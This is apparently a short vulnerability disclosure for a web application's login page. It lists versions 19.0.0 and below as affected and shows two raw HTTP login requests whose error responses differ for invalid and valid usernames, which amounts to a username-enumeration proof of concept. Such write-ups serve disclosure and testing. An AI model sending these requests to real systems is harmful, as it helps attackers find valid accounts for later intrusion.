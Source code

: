 漏洞影響
--------

19.0.0及以下

測試無效賬戶
------------

    POST /cbas/index.php?m=auth&a=login HTTP/1.1

    username=randomuser&password=&challenge=60753c1b5e449de80e21472b5911594d&response=e16371917371b8b70529737813840c62

Response

    <!-- Failed login comments appear here -->
    <p class="alert-error">randomuser</p>

測試有效賬戶
------------

    POST /cbas/index.php?m=auth&a=login HTTP/1.1

    username=admin&password=&challenge=6e4344e7ac62520dba82d7f20ccbd422&response=e09aab669572a8e4576206d5c14befc5s

Response

    <!-- Failed login comments appear here -->
    <p class="alert-error">Invalid username/password combination.  Please try again!</p>
